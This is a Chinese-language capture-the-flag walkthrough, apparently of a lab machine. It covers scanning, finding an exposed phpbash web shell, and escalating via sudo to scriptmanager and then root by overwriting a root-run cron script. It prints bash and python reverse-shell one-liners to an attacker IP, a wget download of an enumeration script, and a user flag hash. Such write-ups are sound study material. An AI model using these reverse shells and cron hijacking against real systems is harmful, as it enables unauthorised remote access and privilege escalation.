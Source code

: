 ![image-20220402025110704](https://raw.githubusercontent.com/huamang/image/master/image-20220402025110704.png?token=ARNOAICNR2CZOH7M6J4IA5LCI5E5Y)

# USER

首先拿nmap扫一下，发现开启了80端口

![image-20220402025130761](https://raw.githubusercontent.com/huamang/image/master/image-20220402025130761.png?token=ARNOAICEDCW4DA35UFMQ3BDCI5E7S)

访问一下看看，是一个这样的页面

![image-20220402025040757](https://raw.githubusercontent.com/huamang/image/master/image-20220402025040757.png?token=ARNOAIE3BFEJRVNUNAHIWDDCI5E34)

看他的描述看起来像是一个，php写的远程shell工具

![image-20220402025022789](https://raw.githubusercontent.com/huamang/image/master/image-20220402025022789.png?token=ARNOAICXRWMM4M2ZQ5BPLZLCI5E2W)

试试能不能进入这里，先扫一个目录看看

![image-20220402025004616](https://raw.githubusercontent.com/huamang/image/master/image-20220402025004616.png?token=ARNOAICIOSRYBM5OW74XFP3CI5EZU)

这里有一目录dev

![image-20220402024950421](https://raw.githubusercontent.com/huamang/image/master/image-20220402024950421.png?token=ARNOAIFTKSJADGNCA3DTXK3CI5EYW)

这个phpbash.php就真是这个，不过权限是www-data

![image-20220402024934901](https://raw.githubusercontent.com/huamang/image/master/image-20220402024934901.png?token=ARNOAIGJMDE222MXJRAT3T3CI5EXW)

找一下user.txt

![image-20220402024914791](https://raw.githubusercontent.com/huamang/image/master/image-20220402024914791.png?token=ARNOAIBBBTN7OKWUN64LBYTCI5EWO)

拿下user

```
2c281f318555dbc1b856957c7147bfc1
```

![image-20220402024819658](https://raw.githubusercontent.com/huamang/image/master/image-20220402024819658.png?token=ARNOAICWXK32S776SHKOPLLCI5ETC)

# ROOT

接下来就是提权了，感觉这里面用的不舒服，有些命令执行没有回显，弹个shell来操作吧

```php
bash -i >& /dev/tcp/10.10.16.4/4444 0>&1
```

试了一下，竟然弹不出来，那就直接把脚本传上去吧，发现也不行，没有权限

![image-20220402024802627](https://raw.githubusercontent.com/huamang/image/master/image-20220402024802627.png?token=ARNOAIFKY6UCVADXFCN6I33CI5ER6)

换到tmp目录下载，成功传上去了

![image-20220402024746846](https://raw.githubusercontent.com/huamang/image/master/image-20220402024746846.png?token=ARNOAICLUXOSYS3S2Q6MXL3CI5ERA)

给个权限，然后执行

```
chmod 777 linpeas.sh
```

太难看了，再试试能不能弹shell吧

![image-20220402024641941](https://raw.githubusercontent.com/huamang/image/master/image-20220402024641941.png?token=ARNOAICKX5BSFMV6QG5A5NLCI5EM6)

试着用python来弹一下

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

python的弹成了

![image-20220402024619047](https://raw.githubusercontent.com/huamang/image/master/image-20220402024619047.png?token=ARNOAIDP2XSTKYJU3PTTU4TCI5ELQ)

传一个linenum上去进行提权测试

```
wget http://10.10.16.4:8000/linenum.sh
```

找到了一个，www-data用户可以不需要密码提成scriptmanager

![image-20220402024440260](https://raw.githubusercontent.com/huamang/image/master/image-20220402024440260.png?token=ARNOAIDEEUDGQ4YPF6SCPI3CI5EFK)

执行如下代码

```
sudo -u scriptmanager /bin/bash
```

成功提权成了scriptmanager

![image-20220402024425208](https://raw.githubusercontent.com/huamang/image/master/image-20220402024425208.png?token=ARNOAIAD54I2UGHRLQZ4CBLCI5EEM)

既然是scriptmanager，那就去scripts目录看看，这里可以看到，test.py的是本用户拥有的，而这个test.txt确是root有的

![image-20220402024406026](https://raw.githubusercontent.com/huamang/image/master/image-20220402024406026.png?token=ARNOAIGRZGQQF6OG6JSLTK3CI5EDG)

看一下test.py，内容就是把文件写进test.txt

![image-20220402024335418](https://raw.githubusercontent.com/huamang/image/master/image-20220402024335418.png?token=ARNOAIAHFZRF52TF5AYRRNDCI5EBI)

那这个地方就意味着，py文件是我可以编辑的，但是他的结果权限却是root，所以这个脚本是有scriptmanager来写的，由root来执行的

在执行了linpeas里面，我发现了这个细节，这说明他每隔五分钟就会执行一次test.py

![image-20220402024312437](https://raw.githubusercontent.com/huamang/image/master/image-20220402024312437.png?token=ARNOAIBUIU7YBAPTTFMDGELCI5D72)

所以这里我就可以写一些东西进去了，我选择的是再用python反弹一个shell，这样容错率高

这里注意符号的转义

```python
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.4\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```

kali开启监听，等一会就拿到反弹的shell了，权限是root，直接拿到flag

![image-20220402024124169](https://raw.githubusercontent.com/huamang/image/master/image-20220402024124169.png?token=ARNOAIFOJIKGD4ZMVJQZTWTCI5DZC)
